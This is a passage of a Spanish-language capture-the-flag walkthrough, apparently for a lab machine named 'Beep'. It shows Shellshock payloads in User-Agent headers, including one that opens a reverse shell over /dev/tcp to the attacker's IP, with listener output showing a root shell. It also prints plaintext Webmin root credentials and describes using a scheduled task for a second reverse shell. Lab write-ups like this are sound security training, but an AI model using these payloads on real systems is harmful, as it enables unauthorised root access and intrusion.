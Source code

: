```http
User-Agent: () { :; };ping -c 1 10.10.16.3
```

Y recibimos una conexión:

```shell
❯ sudo tcpdump -ni tun0 icmp
[sudo] password for kali:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:56:11.688169 IP 10.10.10.7 > 10.10.16.3: ICMP echo request, id 20511, seq 1, length 64
18:56:11.688182 IP 10.10.16.3 > 10.10.10.7: ICMP echo reply, id 20511, seq 1, length 64
```

Establezcamos una shell inversa:

```shell
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.16.3/443 0>&1
```

Recibimos una conexión como root:

```shell
❯ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.7] 59290
bash: no job control in this shell
[root@beep webmin]# id
uid=0(root) gid=0(root)
[root@beep webmin]# whoami
root
```

## Webmin Command [Path #4]

 Podemos acceder a webmin con las credenciales root:jEhdIekWmdjE. 
 
![[webmin-admin-page.png]]
 
 Esta interfaz está diseñada para administrar el sistema y tenemos acceso de root debido a las credenciales que encontramos antes, así que podemos crear una tarea como root:
 
![[schedule-command.png]]

![[schedule-command-created.png]]
 
En un minuto (dependiendo del tiempo que les hayas dado), el script se ejecutará y obtendremos una shell inversa:

```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.7] 43947
bash: no job control in this shell
[root@beep /]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep /]# whoami
root
```
